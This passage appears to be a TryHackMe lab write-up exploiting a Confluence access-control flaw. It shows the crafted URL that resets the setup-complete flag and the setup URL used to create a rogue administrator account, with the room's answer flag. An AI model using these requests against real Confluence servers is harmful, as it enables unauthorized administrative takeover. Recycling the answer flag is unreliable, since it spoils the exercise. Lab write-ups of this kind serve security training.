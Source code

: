 <pre><code>$
getBootstrapStatusProvider().getApplicationConfig().setSetupComplete(false)
</code></pre>

<p>Now, go to your browser and navigate to the crafted URL to trigger the vulnerability. You should get the following response from the server:</p>

![image](https://github.com/user-attachments/assets/bdb9e0ea-a749-4a19-9c8e-b40a9b45f2d0)


<h3>Creating an Admin Account</h3>
<p>Creating an Admin Account</p>

<pre><code>$
http://10.10.245.48:8090/setup/setupadministrator-start.action
</code></pre>

<p>Fill in the details of your new admin user and click next:</p>

![image](https://github.com/user-attachments/assets/6723f455-8797-455a-a2d7-0c77cdaebc7d)

<p>If all goes well, you should get access to Confluence with administrative privileges!</p>

![image](https://github.com/user-attachments/assets/3475c636-a5f3-4d1b-98bd-1876ae532a39)

<p>In this task, we have gone through a quick explanation of the vulnerability. If you want a more in-depth look at the technical details, check Rapid7 analysis in attackerKB.</p>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 2.1. <em>Log into Confluence with your new credentials. What is the value of the flag posted by admin?</em><br><a id='2.1'></a>
>> <code><strong>THM{who_needs_keys_anyway}</strong></code>

<br>


<pre><code>$
http://confluence.thm:8090/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false
</code></pre>


![image](https://github.com/user-attachments/assets/4fab16e0-d9f3-45ca-a409-3524af133785)

<pre><code>$
http://confluence.thm:8090/setup/setupadministrator-start.action
</code></pre>

![image](https://github.com/user-attachments/assets/c4a2ecf9-0e79-4a10-ae1e-a305d2200bf2)

<p>I registered and it worked.</p>

![image](https://github.com/user-attachments/assets/1a2eaa0c-941e-4451-ba03-c4c4c7573b60)

![image](https://github.com/user-attachments/assets/f318ab5b-da85-4f9e-8867-8d16a30b95a6)
